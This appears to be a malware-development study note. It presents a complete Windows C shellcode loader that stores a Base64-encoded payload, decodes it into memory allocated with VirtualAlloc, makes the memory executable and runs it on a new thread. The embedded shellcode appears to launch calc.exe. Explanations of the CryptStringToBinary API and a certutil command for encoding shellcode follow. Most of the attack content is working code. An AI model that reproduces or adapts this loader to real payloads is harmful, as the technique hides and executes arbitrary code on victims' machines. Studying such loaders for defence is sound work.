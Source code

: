 

Code snippet
```c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <Wincrypt.h>
#pragma comment (lib, "Crypt32.lib")

unsigned char calc_payload[] = "/EiD5PDowAAAAEFRQVBSUVZIMdJlSItSYEiLUhhIi1IgSItyUEgPt0pKTTHJSDHArDxhfAIsIEHByQ1BAcHi7VJBUUiLUiCLQjxIAdCLgIgAAABIhcB0Z0gB0FCLSBhEi0AgSQHQ41ZI/8lBizSISAHWTTHJSDHArEHByQ1BAcE44HXxTANMJAhFOdF12FhEi0AkSQHQZkGLDEhEi0AcSQHQQYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/4FhBWVpIixLpV////11IugEAAAAAAAAASI2NAQEAAEG6MYtvh//Vu/C1olZBuqaVvZ3/1UiDxCg8BnwKgPvgdQW7RxNyb2oAWUGJ2v/VY2FsYy5leGUA";
unsigned int calc_len = sizeof(calc_payload);


int DecodeBase64( const BYTE * src, unsigned int srcLen, char * dst, unsigned int dstLen ) {

	DWORD outLen;
	BOOL fRet;

	outLen = dstLen;
	fRet = CryptStringToBinary( (LPCSTR) src, srcLen, CRYPT_STRING_BASE64, (BYTE * )dst, &outLen, NULL, NULL);
	
	if (!fRet) outLen = 0;  // failed
	
	return( outLen );
}


int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;
    DWORD oldprotect = 0;
	
	// Allocate new memory buffer for payload
	exec_mem = VirtualAlloc(0, calc_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	printf("%-20s : 0x%-016p\n", "calc_payload addr", (void *)calc_payload);
	printf("%-20s : 0x%-016p\n", "exec_mem addr", (void *)exec_mem);

	printf("\nHit me 1st!\n");
	getchar();

	// Decode the payload back to binary form
	DecodeBase64((const BYTE *)calc_payload, calc_len, (char *) exec_mem, calc_len);
	
	// Make the buffer executable
	rv = VirtualProtect(exec_mem, calc_len, PAGE_EXECUTE_READ, &oldprotect);

	printf("\nHit me 2nd!\n");
	getchar();

	// If all good, execute!
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}

	return 0;
}

```


---

#### Key Windows API functions

Windows API provides functions to encode and decode Base64 data. Two common functions for this purpose are `CryptBinaryToString()` and `CryptStringToBinary()`, which are part of the Cryptography API.

[**_CryptStringToBinary()_**](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptstringtobinarya) converts a formatted string into an array of bytes. This function can be found in the _crypt32.dll_ library.

`CryptStringToBinary()` function has the following prototype:

```c
BOOL CryptStringToBinary(
  LPCSTR pszString,  // pointer to a string that contains the formatted string to be converted.
  DWORD  cchString,  // number of characters of the formatted string to be converted, not including the terminating NULL
  DWORD  dwFlags,    // indicates the format of the string to be converted, ex. CRYPT_STRING_BASE64, CRYPT_STRING_HEXASCII, CRYPT_STRING_BINARY, etc.
  BYTE   *pbBinary,  // pointer to a buffer that receives the returned sequence of bytes
  DWORD  *pcbBinary, // pointer to a variable which on entry contains the size of the pbBinary (in bytes). After return, it contains the number of bytes copied to the buffer
  DWORD  *pdwSkip,   // pointer to a value that receives the number of characters skipped to reach the beginning of the -----BEGIN ...----- header
  DWORD  *pdwFlags   // pointer to a value that receives the flags actually used in the conversion. Can be NULL (skipped)
);
```

 **Return value**

If the function succeeds, the return value is nonzero (`TRUE`). Otherwise, the return value is zero (`FALSE`).

**`LPCSTR` = “Long Pointer to Constant String” = `const char *`**

```c
typedef const char *LPCSTR;
```

|Part|Meaning|
|---|---|
|**LP**|"Long Pointer" (historical — just means pointer now)|
|**C**|`const` (read-only)|
|**STR**|string (specifically, an ANSI string — one byte per character)|

##### External Resources

[Base64 Encode and Decode in C](https://nachtimwald.com/2017/11/18/base64-encode-and-decode-in-c/)


---

#### Base64 Decoder Function using CryptStringToBinary

```c
int DecodeBase64( const BYTE * src, unsigned int srcLen, char * dst, unsigned int dstLen ) {

	DWORD outLen;
	BOOL fRet;

	outLen = dstLen;
	fRet = CryptStringToBinary( (LPCSTR) src, srcLen, CRYPT_STRING_BASE64, (BYTE * )dst, &outLen, NULL, NULL);
	
	if (!fRet) outLen = 0;  // failed
	
	return( outLen );
}
```

- `BYTE` on Windows is `typedef unsigned char BYTE;`
- `calc_payload` is declared `unsigned char calc_payload[] = "..."`; that is _exactly_ compatible with `BYTE[]`, so **no cast is strictly necessary** in plain C when passing `calc_payload` to a parameter of type `const BYTE *`
- The `const` part expresses intent: the function promises **not to modify** the source buffer. That’s good practice.
  
  - `VirtualAlloc` returns a `void *` (`exec_mem`). In C, a `void *` can be passed to any object pointer _without_ a cast — but many developers still cast it explicitly (e.g. `(char *)exec_mem`) to make the conversion obvious or to avoid warnings when compiling as C++.

---

#### B64 conversion

Base64 encode bin shellcode
```powershell
certutil -encode calc.bin calc.b64
```


